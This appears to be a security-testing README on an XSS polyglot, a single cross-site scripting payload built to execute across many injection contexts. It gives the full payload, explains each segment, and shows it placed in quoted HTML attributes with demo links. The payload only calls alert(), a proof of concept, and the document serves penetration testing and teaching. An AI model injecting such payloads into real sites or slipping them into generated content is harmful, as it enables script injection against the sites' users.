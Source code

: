 
## Foreground:
When it comes to testing for cross-site scripting vulnerabilities (a.k.a. XSS), you’re generally faced with a variety of injection contexts where each of which requires you to alter your injection payload so it suites the specific context at hand. This can be too tedious and time consuming in most cases, but luckily, XSS polyglots can come in handy here to save us a lot of time and effort.

***

## What is an XSS polyglot?
An XSS polyglot can be generally defined as any XSS vector that is executable within various injection contexts in its raw form.

## So, what polyglot you came up with?
```javascript

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

```

## Anatomy of the polyglot:
* `jaVasCript:`: A label in ECMAScript; a URI scheme otherwise.
* ```/*-/*`/*\`/*'/*"/**/```: A multi-line comment in ECMAScript; a string-breaker sequence.
* `(/* */oNcliCk=alert() )`: A tangled execution zone wrapped in invoking parenthesis!
* `//%0D%0A%0D%0A//`: A single-line comment in ECMAScript; a double-CRLF in HTTP responses.
* `</stYle/</titLe/</teXtarEa/</scRipt/--!>`: A sneaky HTML-tag-breaker sequence.
* `\x3csVg/<sVg/oNloAd=alert()//>\x3e`: An innocuous svg element!!

## What injection contexts does it cover?
#### HTML contexts covered:
* __Double-quoted tag attributes:__
```html
<input type="text" value="

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

"></input>
```
_Demo: <https://jsbin.com/dopepi>_

* __Single-quoted tag attributes:__
```html
<input type='text' value='

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

'></input>
```
_Demo: <https://jsbin.com/diwedo>_
